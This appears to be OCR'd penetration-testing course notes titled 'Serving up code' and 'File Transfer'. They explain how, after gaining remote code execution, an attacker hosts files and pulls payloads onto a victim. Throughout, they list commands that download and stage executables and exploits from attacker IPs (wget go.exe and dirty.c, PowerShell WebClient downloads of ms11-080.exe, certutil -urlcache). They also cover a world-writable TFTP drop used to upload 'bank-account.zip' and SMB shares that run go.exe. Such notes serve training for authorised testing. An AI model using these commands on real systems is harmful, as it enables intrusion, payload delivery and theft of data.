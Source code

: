 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

● HTTP
○ sudo service apache2 start
○ /var/www/html
○ wget http://192.168.1.42/go.exe
● SIMPLE HTTP
○ python SimpleHTTPServer.py
○ Will serve up on port 8000 in the folder you run the script from
● TFTP
○ atftpd --daemon --port 69 /tftp
○ cd /tftp touch incoming chmod 777 incoming
○ tftp -i 10.11.0.185 GET test.txt
○ tftp -i 10.11.0.185 PUT bank-account.zip incoming
● SMB
○ smbserver.py [sharename] /tmp/smbserve/
○ Dir \\192.168.1.48\sharename
○ \\192.168.1.48\sharename\go.exe






# File Transfer
● Windows
○ tftp -i 10.11.0.185 GET test.txt
○ cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe
○ Powershell 2
■ (new-object
System.Net.WebClient).Downloadfile("http://10.11.0.185/access
chk.exe", "C:\lec\accesschk.exe")

○ Powershell 3
■ Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"
○ SimpleSMBServer
■ smbserver.py lecon /var/www/html
○ SimpleHTTPServer
■ python -m SimpleHTTPServer
○ FTP
■

● Linux
○ wget http://10.11.0.158/dirty.c -O /tmp/dirty.c
○ scp root@10.11.0.158:~/Downloads/dirty.c .








#### Windows lol
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
